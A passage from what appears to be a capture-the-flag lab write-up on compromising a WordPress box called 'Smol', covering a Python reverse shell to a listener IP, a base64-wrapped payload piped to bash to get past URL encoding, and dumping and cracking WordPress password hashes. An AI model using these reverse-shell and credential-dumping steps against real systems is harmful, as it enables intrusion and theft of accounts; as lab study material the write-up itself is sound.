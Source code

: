 ![](/assets/blog/Smol/check.png)

This works, which is why the next thing to do is getting a reverse shell. I used a encoded payload to escape the URL encoding problem. To do that I first created a file with my Python payload:
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.78.229",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
{: file='payload.txt'}
.. and generated the payload with:

```sh
echo "echo `cat payload.txt | base64 | tr -d '\n'` | base64 -d | bash"
```

I pasted the whole output of the command as the `cmd` parameter and got the reverse shell.


## Privilege Escalation

### diego
The first thing to do now is [stabilizing](https://www.jasonturley.xyz/how-to-stabilize-a-reverse-shell/) the reverse shell.

I next logged into the `mysql` database and checked the users and passwords:
```sql
use wordpress;
select user_login,user_pass from wp_users;
```

We got a list of hashes:
```
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 |
+------------+------------------------------------+
```
Let's try to crack them. I transferred the hashes to my host inside a file and used john (self-build from GitHub repository) to 'crack' them.